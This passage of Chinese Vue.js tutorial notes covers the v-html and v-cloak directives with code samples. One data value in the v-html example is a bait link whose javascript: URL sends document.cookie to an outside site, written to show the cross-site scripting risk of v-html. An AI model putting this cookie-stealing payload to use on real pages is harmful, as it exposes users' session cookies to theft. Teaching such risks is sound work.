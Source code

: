![image-20230403203603174](https://gitee.com/lengyue_wzw/pic-go/raw/master/img/202304032036245.png)

```html
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            str: '<h3>你好啊！</h3>',
            str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

### v-cloak指令

v-cloak指令（没有值）：

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>v-cloak指令</title>
    <style>
        [v-cloak] {
            display: none;
        }
    </style>
</head>
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷'
        }
    })
</script>
</html>
```
